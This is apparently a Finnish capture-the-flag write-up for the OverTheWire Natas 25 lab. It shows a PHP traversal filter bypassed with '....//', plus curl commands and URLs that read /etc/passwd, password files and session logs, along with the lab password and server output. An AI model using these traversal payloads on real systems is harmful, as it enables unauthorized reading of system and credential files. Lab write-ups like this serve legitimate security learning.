









# natas 25 - START HERE;

Username: natas25 Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws


Ensimmäisen kirjauduttua joku lorem ipsum quote runoilu sivusto, ja siinä voi valita kielensä et menee joko oletuksena (eng) tai vaihtaa to saksan kieleksi. 




**view-source.html** koodissa on ainakin muutama funktio, josta koskien tämä pieni runoilu teksit säkeistöstä että sallii vaihtakielensä ja oletuksena se on englanniksi.

Tässä on jotakin vinkkejä annettu koskien "directory traversal attempt" , ja tiedostojen polku tyyppiä, että tekee funktioiden tarkistusta ja palauttamista, että sen korvaamisen suojaa tiedostopolkua.

🕵️‍♂️ logRequest()-funktio tallentaa session-tunnukseen perustuvan lokin tiedostoon, mikä on selvä vihje, että lokien polku voi paljastaa salaisuuksia. just tämä `/var/www/natas...`.

Erikseen on funktio kirjauttumisen pyyntö viesti, että annettu tällainen polku vinkkinä:

```
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```




Tämä Natas25 taso liittyy vahvasti haavoittuvuuteen nimeltä local file inclusion (LFI) ja mahdolliseen session-id -manipulointiin. Session-id kenttään tulee toi kirjautuneen evästeen PHPSESSID value. Sekä tässä lokituksessa ($log) termistössä on mainintana date (päiväys ja kellonaikakin), että normi lokituksen dataa.

Tässä kun valitsee kielensä esim. eng tai tanskaksi se kyllä muuttaa samantien sivuston URL perään `/?lang=en` ja sama pätee saksaksi `/?lang=de`- tämä voi kertoa jotakin tulostuksena tiedoston polkua.


Tässä alemmassa funktiossa, niin tässä tapahtuu **bypassing the ../ check** osa. Ainakin tässä mainuttu on tiedoston polku ja monta mahtaa olla kyseessä? Kokeillaan laitaa muutama piste ja kautakauta  että antaako mitään eli `....//`.


- Tässä `$filename, "../"` 

```
// check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
```

🔐 Mitä funktiossa tapahtuu?

PHP-koodissa yritetään suojautua hakemistohyökkäyksiltä (directory traversal) — eli tilanteilta, joissa käyttäjä yrittää päästä käsiksi tiedostoihin menemällä takaisin hakemistorakenteessa `../.`

🚧 Miksi tämä ei riitä?
Kirjoittaja kertoo, että vaikka `../` poistetaan, on mahdollista kiertää suoja käyttämällä erikoismuotoa: `....//`

Koodi yrittää estää tiedostojen luvattoman lukemisen poistamalla `../`, mutta fiksu hyökkääjä voi kiertää tämän käyttämällä `....//`, joka toimii samoin mutta ei jää suodatukseen kiinni.

Tämä on klassinen esimerkki siitä, miten **suodatus ei riitä** — pitää käyttää esim. **täydellistä polun normalisointia tai whitelist-pohjaista sisällytystä.**


## kali linux - START HERE;

Username: natas25 Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws

Tämä voisi olla hyvä alku pohja checkkaus et ottaa ton kirjautuneen evästeen datansa eli (F12 --> application --> cookies / <http://natas-pitkä-url> --> PHPSESSID <value>)


1. Hyödynnettään `session_id()` - pohjaista tiedostopolkua

PHP tallentaa session-tiedisto polkuun kuten: **/var/www/natas/natas25/logs/natas25_<session_id>.log
** 

Kokeillaan jotakin lokitiedosotn sisältö ja joskus sieltä voi löytyä salasanansa tai muuta hyödyllistä dataa ja pyörittäen tätä curl komento pohjaa:

```
curl "http://natas25.natas.labs.overthewire.org/?lang=.../logs/natas25_<session_id>.log" \
  --user natas25:<salasana> \
  --cookie "PHPSESSID=<session_id>"

```


Toinen esim. kokeilla directory traversal hyökkäystä:

`curl "http://natas25.natas.labs.overthewire.org/?lang=../../../../etc/passwd" \
  --user natas25:<salasana>`


Tai lukea natas salasanoja:
`curl "http://natas25.natas.labs.overthewire.org/?lang=../../../../natas_webpass/natas25" \
  --user natas25:<salasana>`


**URL kautta:**

Voit testata molempia hyökkäystapoja myös suoraan selaimen URL-riviltä, aivan kuten curl tekee komentoriviltä

🌐 1. Lang-parametrin kautta tiedoston lukeminen selaimella:
`http://natas25.natas.labs.overthewire.org/?lang=.../logs/natas25_7cbgukbicl92os5d1a9icj81l5.log`

Kirjautuneena selaimessa, evästeet kulkevat automaattisesti → ei tarvitse syöttää käyttäjää/salasanaa manuaalisesti

🔐 2. Sama idea kuin curl, mutta selaimen kautta

curl vain tekee saman HTTP-pyynnön komentoriviltä — mutta URL:in rakenne on täsmälleen sama kuin selainkäytössä.

ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws

```
curl "http://natas25.natas.labs.overthewire.org/?lang=.../logs/natas25_<abd_value>.log" \
  --user natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws \
  --cookie "PHPSESSID=<abcd_value>"
```

`http://natas25.natas.labs.overthewire.org/?lang=.../logs/natas25_abcd1234.log`


Tässä testailin normaalisti se polku, että muutama piste piste `../` sitten etc - joka antoi oletuksena tämä etusivun Quote runoilu tekstinsä.



Jos istuntosi on aktiivinen ja eväste mukana, saat saman tuloksen kuin curlilla

```
┌──(kali㉿kali)-[~]
└─$ curl "http://natas25.natas.labs.overthewire.org/?lang=../../../../etc/passwd" \
  --user natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws" };</script></head>
<body>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<option>en</option><option>de</option></select>
</form>
</div>

<h2>Quote</h2><p align="justify">You see, no one's going to help you Bubby, because there isn't anybody out there to do it. No one. We're all just complicated arrangements of atoms and subatomic particles - we don't live. But our atoms do move about in such a way as to give us identity and consciousness. We don't die; our atoms just rearrange themselves. There is no God. There can be no God; it's ridiculous to think in terms of a superior being. An inferior being, maybe, because we, we who don't even exist, we arrange our lives with more order and harmony than God ever arranged the earth. We measure; we plot; we create wonderful new things. We are the architects of our own existence. What a lunatic concept to bow down before a God who slaughters millions of innocent children, slowly and agonizingly starves them to death, beats them, tortures them, rejects them. What folly to even think that we should not insult such a God, damn him, think him out of existence. It is our duty to think God out of existence. It is our duty to insult him. Fuck you, God! Strike me down if you dare, you tyrant, you non-existent fraud! It is the duty of all human beings to think God out of existence. Then we have a future. Because then - and only then - do we take full responsibility for who we are. And that's what you must do, Bubby: think God out of existence; take responsibility for who you are.<div align="right"><h6>Scientist, Bad Boy Bubby</h6><div><p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>


┌──(kali㉿kali)-[~]
└─$ curl "http://natas25.natas.labs.overthewire.org/?lang=.../logs/natas25_7cbgukbicl92os5d1a9icj81l5.log" \
  --user natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws \
  --cookie "PHPSESSID=7cbgukbicl92os5d1a9icj81l5"     
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws" };</script></head>
<body>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<option>en</option><option>de</option></select>
</form>
</div>

<h2>Quote</h2><p align="justify">You see, no one's going to help you Bubby, because there isn't anybody out there to do it. No one. We're all just complicated arrangements of atoms and subatomic particles - we don't live. But our atoms do move about in such a way as to give us identity and consciousness. We don't die; our atoms just rearrange themselves. There is no God. There can be no God; it's ridiculous to think in terms of a superior being. An inferior being, maybe, because we, we who don't even exist, we arrange our lives with more order and harmony than God ever arranged the earth. We measure; we plot; we create wonderful new things. We are the architects of our own existence. What a lunatic concept to bow down before a God who slaughters millions of innocent children, slowly and agonizingly starves them to death, beats them, tortures them, rejects them. What folly to even think that we should not insult such a God, damn him, think him out of existence. It is our duty to think God out of existence. It is our duty to insult him. Fuck you, God! Strike me down if you dare, you tyrant, you non-existent fraud! It is the duty of all human beings to think God out of existence. Then we have a future. Because then - and only then - do we take full responsibility for who we are. And that's what you must do, Bubby: think God out of existence; take responsibility for who you are.<div align="right"><h6>Scientist, Bad Boy Bubby</h6><div><p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
``` 

Vähä lyhyempi curl komento, mutta automaattisesti saattaa valita pitkän komennon ja normi checkkaus:

```
┌──(kali㉿kali)-[~]
└─$ curl -i --user natas25:7cbgukbicl92os5d1a9icj81l5 "http://natas25.natas.labs.overthewire.org/"          
HTTP/1.1 401 Unauthorized
Date: Wed, 23 Jul 2025 16:29:06 GMT
Server: Apache/2.4.58 (Ubuntu)
WWW-Authenticate: Basic realm="Authentication required"
Content-Length: 481
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.58 (Ubuntu) Server at natas25.natas.labs.overthewire.org Port 80</address>
</body></html>

┌──(kali㉿kali)-[~]
└─$ curl http://natas25.natas.labs.overthewire.org/ --user natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws          

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws" };</script></head>
<body>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<option>en</option><option>de</option></select>
</form>
</div>

<h2>Quote</h2><p align="justify">You see, no one's going to help you Bubby, because there isn't anybody out there to do it. No one. We're all just complicated arrangements of atoms and subatomic particles - we don't live. But our atoms do move about in such a way as to give us identity and consciousness. We don't die; our atoms just rearrange themselves. There is no God. There can be no God; it's ridiculous to think in terms of a superior being. An inferior being, maybe, because we, we who don't even exist, we arrange our lives with more order and harmony than God ever arranged the earth. We measure; we plot; we create wonderful new things. We are the architects of our own existence. What a lunatic concept to bow down before a God who slaughters millions of innocent children, slowly and agonizingly starves them to death, beats them, tortures them, rejects them. What folly to even think that we should not insult such a God, damn him, think him out of existence. It is our duty to think God out of existence. It is our duty to insult him. Fuck you, God! Strike me down if you dare, you tyrant, you non-existent fraud! It is the duty of all human beings to think God out of existence. Then we have a future. Because then - and only then - do we take full responsibility for who we are. And that's what you must do, Bubby: think God out of existence; take responsibility for who you are.<div align="right"><h6>Scientist, Bad Boy Bubby</h6><div><p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
                                                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ curl http://natas25.natas.labs.overthewire.org/?lang=....// --user natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws" };</script></head>
<body>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<option>en</option><option>de</option></select>
</form>
</div>

<br />
<b>Warning</b>:  include(/var/www/natas/natas25): failed to open stream: No such file or directory in <b>/var/www/natas/natas25/index.php</b> on line <b>38</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'language/../' for inclusion (include_path='.:/usr/share/php') in <b>/var/www/natas/natas25/index.php</b> on line <b>38</b><br />
<br />
<b>Notice</b>:  Undefined variable: __GREETING in <b>/var/www/natas/natas25/index.php</b> on line <b>80</b><br />
<h2></h2><br />
<b>Notice</b>:  Undefined variable: __MSG in <b>/var/www/natas/natas25/index.php</b> on line <b>81</b><br />
<p align="justify"><br />
<b>Notice</b>:  Undefined variable: __FOOTER in <b>/var/www/natas/natas25/index.php</b> on line <b>82</b><br />
<div align="right"><h6></h6><div><p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

---

## UI selain kautta - START HERE;

- http://natas25.natas.labs.overthewire.org/?lang=....//....//
- http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//etc/passwd

Alkuun kokeilin lyhyemmällä, että mitä se antoi, mutta kyllä alkoi pelittääkin ja jopa päästään selvittää se viimeiseen maaliin astikin.




Tässä ainakin päästiin polkuun `/etc/passwd`, jossa on erilaisia käyttäjiä ja just nämä natas tasoiden tyyppiä ja sen hakemistojen tiedostoa.






Seuraavaksi otettaan tämä funktio osuus kuitenkin huomioina ja se polku osuus ja sitä haluttaan lisätä siihen url perään ja pätee toi evästeen PHPSESSID <value> ja kirjautuneen value id. - Toi on se vihje eli sijoitettaan se 

```
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```

Otin tämän siis just sillä hetkisen istunnon natas25 levelin eväste PHPSESSID arvonsa:
- PHPSESSID value: 7cbgukbicl92os5d1a9icj81l5

- http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_7cbgukbicl92os5d1a9icj81l5.log

Sama pätee jos se PHPSESSID eväste arvo muuttuu niin kannattaa muuttaa sitä ja päivittää sivustonsa, mutta seuraavassa kappaleessa tapahtuu **Burp suite** ohjelma Kali linux ohjelman alla. 

- PHPSESSID value: m82if8u2gmmdqdirqfhmol20ao

- http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_m82if8u2gmmdqdirqfhmol20ao.log

Tässä laitoin perään vähä lisää, mutta otin vihjeen siitä ylhäällä olevan funktion `fd=open` osuuden polun vinkkiä ja voiko vielä avautua seuraava tason salasana, mutta ei mutta hyvä yrittää ja testatakin. Tosiaan tässä URL tapahtuu: `http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_m82if8u2gmmdqdirqfhmol20ao.log`: 
